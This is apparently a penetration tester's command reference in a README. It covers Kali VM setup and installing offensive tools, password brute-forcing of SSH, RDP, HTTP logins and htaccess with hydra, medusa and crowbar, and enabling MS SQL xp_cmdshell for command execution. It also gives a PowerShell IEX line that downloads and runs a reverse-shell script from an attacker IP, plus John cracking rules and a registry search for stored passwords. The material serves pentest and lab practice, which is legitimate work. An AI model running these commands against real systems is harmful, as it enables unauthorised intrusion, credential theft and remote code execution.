 # Command reference


## Kali VM Setup

Commands for easy first-time setup of a Kali/Parrot VM after setting up a new image
<details>
 <summary>Expand</summary>

 ### OpenVPN Client Setup
 After downloading openvpn client configuration (.ovpn):

 ```
 sudo cp client.ovpn /etc/openvpn/[name].conf`
 systemctl [re]start openvpn.service
 systemctl status openvpn@[name].service
 ```

 ### Install/update useful packages and tools
 
 ```
 sudo apt update -y && sudo apt install -y gobuster crowbar metasploit-framework python3-pip python3-venv seclists curl enum4linux ffuf gobuster nbtscan nikto nmap onesixtyone oscanner smbclient smbmap smtp-user-enum snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf`
 sudo python3 -m pip install git+https://github.com/Tib3rius/AutoRecon.git
 ```
 
 If gobuster install doesn't work:
 
 ```
 sudo apt install golang -y && go get github.com/OJ/gobuster && sudo cp ~/go/bin/gobuster /usr/local/bin
 ```

 ### Setup samba share for easy file transfers
 This makes file transfers between VMs/hosts easy if your Kali VM isn't local, like if it's setup on a server and you need to transfer files from another machine on the network.  This will open a share called "kali_share" under /mnt/kali_share with anonymous access allowed, which can obviously be a huge security risk, so configure it with creds and be careful about what you put in the share if you're worried about that.
 
 <details>
  <summary>Samba Config File</summary>
  
  ```
  [global]
  
  workgroup = WORKGROUP
  server string =  Windows ME
  netbios name = Workstation 
  security = user
  map to guest = bad user
  name resolve order = bcast host
  dns proxy = no
  bind interfaces only = yes


  [kali_share]
     path = /mnt/kali_share
     writable = yes
     browseable = yes
     guest ok = yes
     guest only = yes
     read only = no
     create mode = 0777
     directory mode = 0777
     force user = nobody
  ```
 </details>  
 
 Setup your Samba server with the above config file and start the service
 ```
 mkdir /mnt/kali_share
 sudo cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
 sudo cp new.conf /etc/samba/smb.conf
 sudo systemctl [re]start smbd.service
 sudo systemctl enable smbd.service
 ```
 
 ### Misc setup commands
 ```
 sudo updatedb
 sudo systemctl enable ssh openvpn apache2
 sudo curl https://raw.githubusercontent.com/harringtonjd0/security/main/.vimrc -o ~/.vimrc
 sudo curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -o /var/www/html/linpeas.sh
 sudo wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASany.exe -O /var/www/html/winpeasany.exe
 
 # Disable system beep because it's annoying
 sudo modprobe -r pcspkr
 sudo bash -c 'echo "blacklist pcspkr" >> /etc/modprobe.d/blacklist.conf'
 ```
</details>

## Network Brute Force Commands

### htacess
```
medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir
```

### RDP
```
crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1
```

### SSH
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v
```

### HTTP Post
```
hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```


## MS SQL RCE and Rev shell

```
sqsh -U sa -S <ip>:<port>

// Test xp cmdshell
xp_cmdshell 'whoami'
go
```

If necessary, enable xp_cmdshell
```
EXEC SP_CONFIGURE 'show advanced options',1
reconfigure
go


EXEC SP_CONFIGURE 'xp_cmdshell',1
reconfigure
go
```

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

```
xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
go
```

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
```
john --rules --wordlist=wordlist.txt hashes.txt
john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt
```

## John Wordlist Rules
```
[List.Rules:Wordlist]
$[0-9]
$[0-9]$[0-9]
cAz"[0-9]"
cAz"[0-9][0-9]"
cAz"[£!$]"
cAz"[0-9][£!$]"
```

#### or add to a custom rules list like [List.Rules:MyRule]
```
john --rules=MyRule --wordlist=wordlist.txt hashes.txt
```

 a good one to use is --rules=Jumbo



## Windows Misc

### Search through registry for "pass" in value name
```
reg query HKLM /f pass /t REG_SZ /s
```

